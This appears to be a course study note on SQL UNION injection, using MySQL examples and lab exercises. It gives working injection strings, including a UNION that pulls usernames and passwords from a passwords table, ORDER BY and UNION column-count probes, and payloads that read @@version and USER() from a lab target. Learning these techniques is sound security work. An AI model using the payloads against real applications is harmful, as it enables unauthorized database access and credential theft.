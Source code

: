 ```yaml
---
description: injecting entire SQL queries executed along with the original query
---
```


# Union Clause & Injection

## Union

[Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements.

```shell-session
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

`UNION` combined the output of both `SELECT` statements into one

### Even Columns

`UNION` statement can only operate on `SELECT` statements with an **equal number of columns**

Original request

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

Original + Union

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

### Un-even Columns

we can put junk data for the remaining required columns so that the total number of columns we are `UNION`ing with remains the same as the original query.

> When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.

For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

The `products` table has two columns in the above example, so we have to `UNION` with two columns. If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, such that we have the same number of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

## Union Injection

### Detect number of columns

There are two methods of detecting the number of columns:

* Using `ORDER BY`
* Using `UNION`

**Using ORDER BY**

We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

```sql
' order by 1-- -
```

**Using UNION**

Union injection with a different number of columns until we successfully get the results back.

```sql
cn' UNION select 1,2,3-- -
```

### Location of Injection

we need to determine which columns are printed to the page. It is very common that not every column will be displayed back to the user

we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### Assessment

Use a Union injection to get the result of 'user()'

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption><p>total of 4 columns</p></figcaption></figure>

There are total of 4 columns and displayed 2, 3, and 4 at port code, port city, and port volume repectively

```
cn' UNION select 1,USER(),3,4-- -
```

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

